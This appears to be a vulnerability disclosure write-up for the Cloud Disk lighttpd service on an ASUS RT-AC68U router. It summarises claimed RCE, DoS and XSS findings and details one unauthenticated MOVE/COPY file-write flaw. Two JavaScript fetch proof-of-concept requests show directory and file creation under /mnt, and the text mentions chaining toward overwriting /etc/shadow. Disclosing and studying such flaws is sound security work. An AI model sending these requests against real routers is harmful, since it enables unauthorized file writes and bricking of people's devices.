 Overall, I present the following vulnerabilities:
1. No-interaction pre-authentication RCE chain
2. No-interaction pre-authentication persistent DOS chain
3. 3 XSS vectors, two of which could chain to RCE
4. 2 temporary denial of service exploits

## Vulnerabilities

Note that you will need to enable the lighttpd server by going to <http://router.asus.com/cloud_main.asp> and enabling Cloud Disk. 

Additionally, some of the exploits require the mounting of an external device. 

### MOVE/COPY Priming

No authentication file-write to `/mnt/*`. An attacker chain this with `MOVE/COPY Off By Slash` to remotely brick a router, for example, by overwriting `/etc/shadow` or other important configuration files. 

#### POC

There are two relevant primitives - file creation and directory creation. 

```javascript
fetch("/smb/js/jplayer", {
  "headers": {
    "destination": "https://domain.tld/RT-AC68U/customdir",
    "overwrite": "T",
  },
  "body": "",
  "method": "MOVE"
});
```
*directory creation*

```javascript
fetch("/smb/control", {
  "headers": {
    "destination": "https://domain.tld/RT-AC68U/customdir/testfile",
    "overwrite": "T",
  },
  "body": "",
  "method": "MOVE"
});
```
*file creation*

This allows an attacker to overwrite arbitrary contents under `/mnt`. Note that an attacker is able to create any file structure they desire with these primitives. However, while the file layout is attacker controlled, the content within the files is not. 

#### Analysis

Improper sanitation on the source for COPY and MOVE operations allows an attacker to load preexisting files from the router, even without authentication. 
